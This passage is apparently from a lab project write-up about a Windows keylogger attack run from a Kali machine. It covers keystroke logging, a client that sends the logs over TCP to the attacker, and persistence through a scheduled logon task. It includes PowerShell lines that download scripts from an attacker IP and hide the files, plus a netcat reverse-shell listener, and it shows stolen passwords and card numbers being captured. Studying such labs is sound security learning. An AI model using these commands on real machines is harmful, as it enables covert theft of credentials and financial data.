 The keylogger records all the keystrokes and saves them in a file named "log.txt". 

In addition to the keylogger, two more C programs were written:

1. **Client Program**: This program runs at every startup of the victim's machine. It reads the content of the "log.txt" file and sends it over a TCP connection to the attacker's machine (a Kali Linux system).

2. **Server Program**: This program runs on the attacker's machine, listening on port 8080. It waits to receive the content of the "log.txt" file sent by the client program and stores it in a file named "output.txt".

The keylogger and the client program are run in the background, making them less likely to be noticed by the victim. This stealthy operation helps to keep the attack unnoticed.

To further facilitate this process, two additional files, "key_logger.ps1" and "key_logger.vbs", were created. These files are set to run at every logon. They download the ".exe" files of the keylogger and the client program and execute them. A task was created for these files to ensure they run at every logon, these operations were done using the same commands used for the persistance. To make them less noticeable, the 'hidden' attribute was set for these files as has been done previously.
```powershell
-Uri "http://10.0.2.15/Key_Logger_Dw.ps1" -OutFile "C:\Key_Logger_Dw.ps1"
-Uri "http://10.0.2.15/Key_Logger_Dw.vbs" -OutFile "C:\Key_Logger_Dw.vbs"
schtasks /create /tn "Key_Logger" /tr "wscript.exe 'C:\Key_Logger_Dw.vbs'" /sc onlogon /ru "BUILTIN\Administrators" /rp ""
.\Kew_Logger.vbs
attrib +h Key_Logger_Dw.ps1; attrib +h Key_Logger_Dw.vbs; attrib +h Key_Logger.exe; attrib +h Client_Key_Logger.exe
```

Below are shown the results of the previous operations, on the left there are the downloaded files in the victim machine and the newly created file `log.txt`, on the right there are the operations computed through the powershell in Kali.

![Keylogger Win_Kali](images/KeyLogger.png)

Note that the command that marks the files as hidden is not executed in the screenshot to get a better representation of the results.

## Results
In this section the victim machine is restarted to see that the persistance was actually gained. In Kali are executed two terminal windows: one that runs netcat as in the firsts steps of this project `nc -lvp 4444 -n`; on the other runs the program `Server_Key_Logger` that waits for a tcp connection. Below are shown the results in Kali.
On the right there is the reverse shell, on the top left the `Server_Key_Logger` was launched and the tcp connection has been closed because the content of the keylogger has been obtained; and in the bottom right there is the content of the keylogger in the output file. In this simple example is easy to see that the victim performed a research on amazon inserting sensible content like password and card numbers.
